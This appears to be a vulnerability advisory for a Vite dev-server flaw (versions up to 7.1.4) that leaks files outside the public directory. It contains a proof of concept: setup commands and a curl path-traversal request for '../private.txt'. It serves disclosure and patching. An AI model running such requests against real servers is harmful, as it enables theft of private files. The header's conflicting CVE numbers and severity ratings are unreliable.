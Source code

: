 ```yaml
---
description: CVE-2025-58752, CRITICAL, Vite restricted file leak
title: Vite arbitrary restricted remote file leak
date_published: "2025-09-15"
last_updated: "2025-09-15"
xray_id:
vul_id: CVE-2025-58751
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability

---
```


## Summary

Vite arbitrary restricted remote file leak

## Component

[vite](https://www.npmjs.com/package/vite)

## Affected versions

\>=7.1.0,<=7.1.4

\>=7.0.0,<=7.0.6

\>=6.0.0,<=6.3.5

<=5.4.19

## Description

This vulnerability allows a remote attacker to leak files outside of the public directory, assuming the path of the filename to leak has the same prefix as the public directory path.

For example -

Public directory - `/www/p`

File to leak - `/www/private.txt`

## PoC

Execute the following shell commands: (Note that the publicDir is `p`)

```
npm create vite@latest
cd vite-project/
mkdir p
cd p
ln -s a b
cd ..
echo 'import path from "node:path"; import { defineConfig } from "vite"; export default defineConfig({publicDir: path.resolve(__dirname, "p/"), server: {fs: {deny: [path.resolve(__dirname, "private.txt")]}}})' > vite.config.js
echo "secret" > private.txt
npm install
npm run dev
```

Then, in a different shell, run the following command:

```
curl -v --path-as-is 'http://localhost:5173/../private.txt'
```



## Vulnerability Mitigations

No mitigations are supplied for this vulnerability 



## References

[Fix PR](https://github.com/vitejs/vite/pull/20735)
